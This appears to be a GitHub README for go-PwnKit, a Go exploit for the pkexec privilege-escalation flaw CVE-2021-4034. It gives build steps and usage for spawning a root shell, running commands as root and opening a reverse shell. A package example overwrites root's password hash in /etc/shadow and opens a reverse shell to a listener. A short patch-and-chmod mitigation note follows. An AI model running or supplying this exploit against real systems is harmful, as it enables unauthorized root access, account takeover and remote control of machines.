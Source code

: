 # go-PwnKit

A pure-Go implementation of the **CVE-2021-4034 PwnKit** exploit.

The exploit use `syscall.ForkExec` to survive end of main program.



## Installation

```bash
git clone git@github.com:OXDBXKXO/go-PwnKit.git
cd go-PwnKit
make
```



As the exploit relies on a malicious shared library, a **PWN.so** file is generated from ***payload.go*** and embed in the resulting `exploit` executable.

The ***Makefile*** uses `sed` to temporarily change the package name of the ***payload.go*** file to `main`, hence making this ***Makefile*** Linux-only.

As the Go payload is not as reliable as the C one, the ***Makefile*** will compile the exploit with the C payload by default. You can choose to compile with the Go payload using `make build_go`.



## Usage

#### As standalone executable

```
$> ./exploit -h
Usage of ./exploit:
  -c string
        Run command as root in separate process
  -o    Pipe output of fork command to terminal
  -r string
        Open a reverse-shell in separate process. Format: ip:port
  -s    Spawn a root shell
```

The exploit can either be used with a command (`-c`), as a reverse-shell (`-r`) or spawn a root shell (`-s`).



```bash
$> ./exploit -s
sh-5.1#
```

```bash
$> ./exploit -c "cat /etc/passwd"
```

```bash
$> ./exploit -o -c "cat /etc/passwd"
[/etc/passwd content]
```



#### As package

```go
package main

import (
    "github.com/OXDBXKXO/go-PwnKit"
)

func main() {
    // Change root password to 'password'
    gopwnkit.Command(`sed -i -e 's,^root:[^:]\+:,root:$6$eymNRCK.KxwDM6vu$idH0swGW1nsnLb8fT1QibUho5xg7uGJT7fuiheLZHIi9M4gTSk0qIOlUIk2Mm9/Nz5C.T4GkgkmLcK5BtOPkS0:,' etc/shadow`)

    // Open a reverse-shell
    gopwnkit.RevShell("127.0.0.1:1337")
}

```

Note as `Command` and `RevShell` use `syscall.ForkExec` to run the exploit, resulting processes are separate from the main program and survive its end.



## Demonstration

```bash
$> ./exploit
sh-5.1# id
uid=0(root) gid=0(root) groups=0(root)
sh-5.1#
```



## Mitigation

Patch `pkexec` if possible, otherwise disable the ***setuid*** bit on the `pkexec` binary.

```bash
chmod 0755 /usr/bin/pkexec
```



## Credits

This project is inspired by several other PoCs of the **PwnKit** exploit.



Thanks to [An00bRektn](https://github.com/An00bRektn/CVE-2021-4034) for the straight-forward exploit setup.

Thanks to [PaterGottesman](https://github.com/PeterGottesman/pwnkit-exploit) and [berdav](https://github.com/berdav/CVE-2021-4034) for the clarity of the exploit explanation.

Thanks to [dzonerzy](https://github.com/dzonerzy/poc-cve-2021-4034) for the *GIO_USE_VFS* trick.
